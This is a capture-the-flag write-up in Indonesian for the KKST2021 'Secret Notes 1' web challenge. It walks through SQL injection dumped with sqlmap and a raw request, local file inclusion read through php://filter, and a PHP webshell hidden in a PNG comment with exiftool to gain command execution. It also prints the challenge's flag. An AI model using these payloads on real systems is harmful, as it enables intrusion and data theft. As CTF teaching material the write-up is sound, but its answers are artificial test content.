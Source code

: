 # Secret Notes 1
Percayakan rahasiamu pada kami, kami akan menjaganya sepenuh hati seperti n---skip---<br/>

http://103.171.85.90:8082<br/>

Password VM : **4d1b54eeaceb5277ea022f7b42b53113**

##  Penjelasan
Cari vulnerability dalam web tersebut.

## How to Solve
1. Setelah beberapa lama mencari endpoint yang vulnerable, saya menemukan bahwa halaman edit secret ***/page.php?f=editsecret&id=your-id*** vuln terhadap sql injection.<br/>
2. Test sql injection dengan menambahkan ' (quote) pada judul. Didapatkan error sebagai berikut :
```
UPDATE `secret` SET `judul` = 'a'', `secret` = 'a' WHERE `id` = '1431944397'You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'a' WHERE `id` = '1431944397'' at line 1
```
3. Gunakan tools sqlmap untuk mempercepat proses dump database.<br/>
command :<br/>
``sqlmap -r exploit.txt --dump``
<br/>
dengan isi file exploit.txt sebagai berikut :<br/><br/>
```
POST /page.php?f=editsecret&id=<your-id> HTTP/1.1
Host: 103.171.85.90:8082
User-Agent: <user-agent>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://103.171.85.90:8082
Connection: close
Referer: http://103.171.85.90:8082/page.php?f=editsecret&id=2145985763
Cookie: PHPSESSID=<php-session-id>
Upgrade-Insecure-Requests: 1

judul=test*&secret=test
```

didapatkan user dengan username **first-flag-is** dan password **KKST2021{do_you_k**

4. Saya lanjut mencari endpoint yang dapat di exploit lagi dan ditemukan bahwa parameter **editsecret** pada ***page.php?f=editsecret&id=your-id*** vuln terhadap **Local File Inclusion**
5. Check error dengan mengganti **editsecret** dengan value lain yang invalid.
**/page.php?f=randomstring**
didapatkan error sebagai berikut :
```
**Warning**: include(randomstring.php): failed to open stream: No such file or directory in **/var/www/html/page.php** on line **15**  
  
**Warning**: include(): Failed opening 'randomstring.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/page.php** on line **15**
```
Dari error tersebut, saya mengira seperti inilah yang ada pada file page.php
```
<?php
	include($_GET["f"].".php");
	...
?>
```
6. Gunakan **php://filter/convert.base64-encode/resource=** untuk membaca file.<br/>
``http://103.171.85.90:8082/page.php?f=php://filter/convert.base64-encode/resource=page``
didapatkan isi dari **page.php** dalam base64 encoding.
```
PD9waHAgaW5jbHVkZSgnaGVhZGVyLnBocCcpOyA/PgoKCjw/cGhwCgogICAgaWYoaXNzZXQoJF9HRVRbJ2YnXSkpewoKCgogICAgICAgICRmaWxlcyA9ICRfR0VUWydmJ10uIi5waHAiOwoKICAgICAgICBpZihwcmVnX21hdGNoKCcvXC5wbmcvbScsICRfR0VUWydmJ10pKXsKICAgICAgICAgICAgaW5jbHVkZSAkX0dFVFsnZiddOwogICAgICAgIH1lbHNlewogICAgICAgICAgICBpbmNsdWRlICRmaWxlczsKICAgICAgICB9CgogICAgICAgIAoKICAgIH0KCj8+CgoKPD9waHAgaW5jbHVkZSgnZm9vdGVyLnBocCcpOyA/Pg==
```
Setelah di decoding, didapatkan isi dari file **page.php**
```<?php include('header.php'); ?>
<?php

    if(isset($_GET['f'])){



        $files = $_GET['f'].".php";

        if(preg_match('/\.png/m', $_GET['f'])){
            include $_GET['f'];
        }else{
            include $files;
        }



    }

?>


<?php include('footer.php'); ?>
```
Setelah membaca file tersebut, ada sesuatu yang menarik yaitu, saya dapat memanggil file **png** dan di halaman **upload.php** terdapat form upload file untuk mengunggah gambar. Saya berpikiran untuk mengupload backdoor dengan file png yang disisipkan kode php, sehingga ketika nanti file png tersebut dipanggil, maka kode php tersebut berjalan.

7. Gunakan **exiftool** untuk menambahkan kode php ke dalam file png.
	command :<br/>
	 ``exiftool -Comment='<?=`$_GET[0]`?>' file.png``
8. Upload file tersebut pada halaman **upload.php**, otomatis file tersebut akan ter-rename dengan format **file/\<nama-user\>.png** dalam kasus saya adalah **file/user.png**
9. Panggil file png yang sudah diupload tadi.
``http://103.171.85.90:8082/page.php?f=file/user.png``  
10. Setelah memanggil file png tadi, sekarang saya dapat melakukan command shell. 
``http://103.171.85.90:8082/page.php?f=file/user.png&0=<your-command>``
11. Gunakan command **ls -lah** untuk melihat directory, sehingga ditemukan folder **.Administrator** yang berisikan file index.php
12. Gunakan command **cat** untuk membaca file tersebut.
``http://103.171.85.90:8082/page.php?f=file/user.png&0=cat .Administrator/index.php``
13. view-page source dan didapatkan flag bagian kedua :
```
<?php 
  $another_flag = "now_another_cooking?_twiceeee!!!}";
?>
```

## Flag
KKST2021{do_you_know_another_cooking?_twiceeee!!!}
